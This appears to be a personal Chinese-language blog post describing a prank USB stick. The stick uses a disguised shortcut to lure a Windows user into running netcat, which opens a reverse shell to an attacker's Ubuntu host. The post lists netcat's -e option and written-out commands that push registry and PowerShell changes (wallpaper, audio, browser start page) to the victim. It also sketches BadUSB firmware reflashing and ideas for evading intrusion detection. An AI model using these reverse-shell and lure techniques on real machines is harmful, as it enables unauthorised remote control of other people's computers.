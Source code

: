 ```yaml
---
layout:     post   				    
title:      一个简单无害的netcatUSB				
subtitle:    
date:       2024-08-27 				
author:     Closure 						
header-img: img/ 
catalog: true 						
tags:								
    - 安全
    - 移动设备
---
```

> 半小时速通的东西，成本0，沿用之前装机的U盘。

> 在成功监听目标设备后将进行以下操作：更换桌面壁纸、更换桌面文件图标、设置chiikawa毛毛力购买链接为默认网址、播放毛毛力音频。

> https://hackernoon.com/how-to-make-a-malicious-usb-device-and-have-some-harmless-fun

——————————
手上没有带有Phison 2303 (2251-03)微控制器的USB 3.0闪存盘，所以没法做真正意义上的BadUSB，下文提到的大概只能算是用简单的社会工程和脚本执行反向Shell，主要是诱导用户点击快捷方式(

等盘到了才正式做BadUSB，思路是把闪存盘重新编程为一个键盘恶意的HID来执行自定义的恶意操作，用Duck Encoder创建HID有效载荷嵌入固件；然后通过DriveCom工具烧录，最终想要的效果是可以模拟键盘输入执行行预设的操作。

最近在关注近源渗透方面的东西，总算明白为什么老看到曝出来hvv直接跑线下办公区接网线被逮的，毕竟就算网络层的安全性再高，物理设备的插入也可以直接干烂系统x

——————————

示例拿的[netcat](https://netcat.sourceforge.net "netcat")，理论上来说并不是恶意软件，只是一个后端工具，但是windows defender会标记成恶意软件。netcat能在目标系统上执行一个反向shell后通过攻击机的客户端连接，因为它是直接使用的物理介质所以能够绕过大部分防护措施。

USB驱动器插入后创建一个新文件夹 *毛毛力掉落的尾巴毛* ，把netcat可执行文件拖进去后创建批处理文件开始对U盘进行文件系统更改。创建文本文件，然后扩展名保存.cmd。打码部分是Ubuntu的ip地址：
![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408274.png)

（这个还是太简单了，想了两个基础的改进方案，一是因为标准的netcat不支持加密，但是可以用ncat加上TLS加密来通信，二是Netcat通过Base64编码命令传输；对面入侵检测系统能够识别netcat的情况下就尝试不同的工具来模拟netcat功能，下次试试Socat的内置功能。)

社工步骤是创建一个快捷方式图标并链接到隐藏目录中的恶意软件来诱导目标点击，简单的伪装极致的效果x把毛毛力的jpg转成了ico，效果如下：

![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408273.png)
隐藏文件夹后目标打开的视角：


运行漏洞的服务器是安装了netcat的Ubuntu，创建一个反向shell让能在Windows上执行命令。

netcat基本语法 nc [options] [hostname] [port]
- -l: 监听模式。nc 会在指定的端口上监听传入的连接。
- -p: 指定端口号（通常与 -l 选项一起使用）。
- -e: 执行指定的程序，将其输入/输出连接到 netcat 的网络连接（注意安全问题，有些实现中此选项被禁用）。
- -v: 启用详细模式，提供更多的连接信息。
- -u: 使用 UDP 协议而不是默认的 TCP。
- -z: 扫描端口而不发送任何数据（用于端口扫描）。
- -n: 禁用 DNS 查询，直接使用 IP 地址。


—————————— 

**更换壁纸**

*echo 'powershell.exe -Command "Set-ItemProperty -Path ''HKCU:Control Panel\Desktop'' -Name WallPaper -Value ''C:\path\to\mml.jpg''; RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters"' | nc <windows_ip> 4444*


**播放音频**

*echo 'start "" "C:\path\to\mml.mp3"' | nc <windows_ip> 4444*


**设置网站**
![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408271.png)

*echo 'powershell -command "New-ItemProperty -Path ''HKCU:\Software\Microsoft\Internet Explorer\Main'' -Name ''Start Page'' -Value ''https://chiikawamarket.jp/collections/momonga/products/4582662944312'' -Force"' | nc <windows_ip> 4444*
